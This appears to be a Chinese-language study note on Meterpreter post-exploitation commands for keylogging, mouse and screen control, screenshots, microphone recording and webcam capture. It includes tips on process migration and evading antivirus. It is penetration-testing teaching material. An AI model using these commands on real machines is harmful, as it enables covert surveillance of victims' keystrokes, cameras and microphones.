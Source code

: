 # Meterpreter-接口与媒体命令

接口命令主要针对鼠标键盘进行监控。

`    enumdesktops   List all accessible desktops and window stations//列出存在的存在的桌面和窗口
    getdesktop     Get the current meterpreter desktop
    idletime       Returns the number of seconds the remote user has been idle
    keyboard_send  Send keystrokes//发送键盘活动 不太好用啊
    keyevent       Send key events//键盘活动，不太好用啊`    

## 键盘嗅探
   ` keyscan_dump   Dump the keystroke buffer//加载键盘缓存记录
    keyscan_start  Start capturing keystrokes//开启键盘记录，会将记录存入缓存
    keyscan_stop   Stop capturing keystrokes//停止键盘记录` 

如果我们要对管理员的键盘进行记录的话，就需要把进程1096迁移到Administrator的进程516

在system权限下，是无法捕获Administrator的键盘记录.

![](C:\Users\Aurora\OneDrive\桌面\Metasploit\21.4.0.png)

键盘记录需要谨慎添加，避免杀软。

## 鼠标

`    mouse          Send mouse events//mouse操作事件。主要用于对鼠标进行操作，同上需要切换pid。`    

`Usage: mouse action (move移动, click点击, up点击后弹起, down按下, rightclick右键单击, rightup右键点击后抬起, rightdown右键按下, doubleclick双击)`

`以左上角为坐标原点，建立直角坐标系，x0-1024 y0-867,以屏幕像素值为主。
       mouse [x] [y] (click)
       mouse [action] [x] [y]
  e.g: mouse click
       mouse rightclick 1 1
       mouse move 640 480`

## 屏幕

​    `screenshare    Watch the remote user desktop in real time//屏幕共享，会生成一个web网页。
​    screenshot     Grab a screenshot of the interactive desktop//屏幕拍照
​    setdesktop     Change the meterpreters current desktop
​    uictl          Control some of the user interface component`

## 摄像头与麦克风

 `record_mic     Record audio from the default microphone for X seconds`

`  -d   Number of seconds to record (Default: 1)//记录时间，默认1s
    -f   The wav file path (Default: '/root/桌面/[randomname].wav')//记录的保存位置
    -h   Help Banner
    -p   Automatically play the captured audio (Default: 'true')  //播放已经抓取的音频`

`
    webcam_chat    Start a video chat//视频通话。
    webcam_list    List webcams//摄像头查看
    webcam_snap    Take a snapshot from the specified webcam//拍照
    webcam_stream  Play a video stream from the specified webcam//直播 相关参数显示得有摄像头`

## 音频播放

直接在目标上播放本地音频

play 本地音频路径

## 提权

getsystem









